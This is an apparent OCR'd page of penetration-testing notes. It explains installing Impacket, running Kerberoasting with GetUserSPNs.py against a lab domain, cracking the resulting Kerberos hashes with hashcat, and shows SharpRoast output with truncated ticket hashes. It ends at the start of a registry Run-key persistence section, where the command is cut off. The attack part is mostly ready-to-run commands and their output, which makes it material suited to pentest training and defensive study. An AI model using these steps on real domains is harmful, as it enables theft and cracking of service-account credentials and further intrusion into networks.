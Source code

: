 Impacket Installation - 

Impacket releases have been unstable since 0.9.20 better install < 0.9.20 or use python virtual environment.

1.) `cd /opt` navigate to your preferred directory to save tools in 

2.) download the precompiled package from [https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19](https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19)

3.) `cd Impacket-0.9.19` navigate to the impacket directory

4.) `pip install .` - this will install all needed dependencies

Kerberoasting w/ Impacket - 

1.) `cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located

2.) `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash


# 5.  Sharp Roast

#### This project has now been deprecated. Its functionality has been incorporated into [Rubeus](https://github.com/GhostPack/Rubeus) via the "kerberoast" action, which provides proper ASN.1 structure parsing.

```
C:\Temp>SharpRoast.exe all
SamAccountName         : harmj0y
DistinguishedName      : CN=harmj0y,CN=Users,DC=testlab,DC=local
ServicePrincipalName   : asdf/asdfasdf
Hash                   : $krb5tgs$23$*$testlab.local$asdf/asdfasdf*$14AA4F...

SamAccountName         : sqlservice
DistinguishedName      : CN=SQL,CN=Users,DC=testlab,DC=local
ServicePrincipalName   : MSSQLSvc/SQL.testlab.local
Hash                   : $krb5tgs$23$*$testlab.local$MSSQLSvc/SQL.testlab.local*$9994D1...

```

----------------------

# Registry Attacks

### Boot or Logon Autostart Execution (T1547)

- **Command for Adding a Run Key:**

